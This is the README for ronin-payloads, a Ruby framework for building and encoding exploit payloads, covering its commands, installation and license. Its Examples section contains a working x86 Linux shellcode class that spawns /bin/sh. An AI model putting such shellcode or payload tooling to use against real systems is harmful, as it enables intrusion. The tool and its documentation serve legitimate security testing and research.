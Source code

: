 # ronin-payloads

[![CI](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml/badge.svg)](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml)
[![Code Climate](https://codeclimate.com/github/ronin-rb/ronin-payloads.svg)](https://codeclimate.com/github/ronin-rb/ronin-payloads)

* [Website](https://ronin-rb.dev/)
* [Source](https://github.com/ronin-rb/ronin-payloads)
* [Issues](https://github.com/ronin-rb/ronin-payloads/issues)
* [Documentation](https://ronin-rb.dev/docs/ronin-payloads/frames)
* [Slack](https://ronin-rb.slack.com) |
  [Discord](https://discord.gg/6WAb3PsVX9) |
  [Twitter](https://twitter.com/ronin_rb)

## Description

ronin-payloads is a Ruby micro-framework for writing and running exploit
payloads.

## Features

* Allows defining Payloads as plain-Ruby Classes.
* Provides base classes for a variety of common payloads:
  * {Ronin::Payloads::Payload}
  * {Ronin::Payloads::BinaryPayload}
  * {Ronin::Payloads::ASMPayload}
  * {Ronin::Payloads::Nops}
  * {Ronin::Payloads::Shellcode}
  * {Ronin::Payloads::BindShell}
* Provides classes for various payload-encoding techniques.
* Allows adding additional encoders to payloads.

## Synopsis

List available payloads:

```shell
$ ronin-payloads
```

Print information about a payload:

```shell
$ ronin-payloads list -n NAME -v
```

Build and output a payload:

```shell
$ ronin-payload build NAME
```

Build and output a raw un-escaped payload:

 ```shell
$ ronin-payload build NAME --raw
```

Load a payload from a file, then build and output it:

```shell
$ ronin-payload build -f FILE
```

Generate a boilerplate payload file, with some custom information:

```shell
$ ronin-payloads gen example_payload.rb \
                     --name Example --arch i686 --os Linux \
                     --authors Postmodern --description "This is an example."
```

**Note:** The list of available payload templates are:

* `binary_payload`
* `shellcode`
* `nops`

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
require 'ronin/payloads/shellcode'

class BinShShellcode < Ronin::Payloads::Shellcode

  register 'shellcode-linux-x86-bin-sh'
  version '0.5'
  description <<~DESC
    Shellcode that spawns a local /bin/sh shell
  DESC

  targets_arch :x86
  targets_os   'Linux'

  build do
    shellcode do
      xor   eax, eax
      push  eax
      push  0x68732f2f
      push  0x6e69622f
      mov   esp, ebx
      push  eax
      push  ebx
      mov   esp, ecx
      xor   edx, edx
      int   0xb
    end
  end

end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

class Base64Encoder < Ronin::Encoders::Encoder

  register 'text-base64'

  description <<~DESC
    Example base64 payload encoder
  DESC

  targets_arch :x86
  targets_os   'Linux'

  def encode(data)
    data.to_s.base64_encode
  end

end
```

## Requirements

* [Ruby] >= 2.7.0
* [ronin-core] ~> 0.1
* [ronin-post_ex] ~> 0.1

## Install

```shell
$ gem install ronin-payloads
```

### Gemfile

```ruby
gem 'ronin-payloads', '~> 0.1'
```

### gemspec

```ruby
gem.add_dependency 'ronin-payloads', '~> 0.1'
```

## Development

1. [Fork It!](https://github.com/ronin-rb/ronin-payloads/fork)
2. Clone It!
3. `cd ronin-payloads/`
4. `bundle install`
5. `git checkout -b my_feature`
6. Code It!
7. `bundle exec rake spec`
8. `git push origin my_feature`

## License

Copyright (c) 2007-2013 Hal Brodigan (postmodern.mod3 at gmail.com)

This file is part of ronin-payloads.

ronin-payloads is free software: you can redistribute it and/or modify
it under the terms of the GNU Lesser General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ronin-payloads is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License
along with ronin-payloads.  If not, see <https://www.gnu.org/licenses/>.

[Ruby]: https://www.ruby-lang.org
[ronin-core]: https://github.com/ronin-rb/ronin-core#readme
[ronin-core]: https://github.com/ronin-rb/ronin-post_ex#readme
